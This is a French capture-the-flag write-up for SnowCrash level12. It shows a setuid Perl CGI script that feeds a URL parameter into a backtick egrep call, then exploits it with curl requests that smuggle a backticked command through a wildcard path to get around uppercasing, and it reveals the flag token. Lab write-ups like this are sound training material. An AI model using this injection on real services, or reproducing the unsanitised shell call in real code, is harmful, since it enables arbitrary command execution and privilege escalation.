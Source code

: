 
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
Que contient donc `level12.pl` ?
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Encore un serveur web, comme dans le level11, un coup d'oeil à la doc de perl et on comprend qu'il s'agit du meme type de faille, le paramètre `x` étant utilisé après traitement comme paramètre d'un egrep.
```perl
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; # toupper(x)
  $xx =~ s/\s.*//; # on supprime tout ce qu'il y a après les espaces
  @output = `egrep "^$xx" /tmp/xd 2>&1`; # on s'en sert pour avec l'egrep du système
```
Une injection de commande semble donc la voie la plus évidente, petite difficulté dans le traitement du paramètre x de l'URL, il est mis en majuscule et tout ce qui suit le premier espace est éliminé...

Dans un premier temps on va créer la payload, avec un nom en majuscule pour contourner le script:
```
level12@SnowCrash:~$ echo 'getflag > /tmp/flag' > /tmp/WTF
level12@SnowCrash:~$ chmod +x /tmp/WTF
level12@SnowCrash:~$ ls -l /tmp/WTF
-rwxrwxr-x 1 level12 level12 20 May  1 11:36 /tmp/WTF
```
Il nous reste à l'injecter:
```
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`/tmp/wtf`'   
..level12@SnowCrash:~$ cat /tmp/flag
cat: /tmp/flag: No such file or directory
```
Il ne trouve pas notre fichier... normal, `/TMP` n'est pas un dossier valide ! On va donc utiliser une wildcard:
```
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`/*/wtf`'  
level12@SnowCrash:~$ cat /tmp/flag                   `'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
On a le flag, `g1qKMiRpXf53AWhDaU7FEkczr` :tada:
